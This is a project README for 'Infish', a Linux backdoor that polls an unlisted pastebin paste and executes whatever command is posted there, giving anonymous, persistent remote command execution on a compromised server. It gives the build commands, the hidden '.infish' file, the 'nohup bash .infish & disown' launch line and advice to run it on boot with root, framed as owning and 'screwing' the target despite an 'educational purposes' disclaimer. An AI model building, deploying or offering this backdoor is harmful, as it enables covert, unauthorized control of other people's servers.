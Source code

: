 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **only a reboot** can save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url
- Using your pastebin dev api key, username, and password


## Using a raw paste url

This is when you have already created a paste by hand. Get the **raw paste url** and run the following command

```bash
bash build url pastebin.com/raw/abc123
```

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
>bash build key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully build infinite shell

```

A file called '.infish' is created.

Finally on the server, run

```bash
nohup bash .infish & disown
```

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
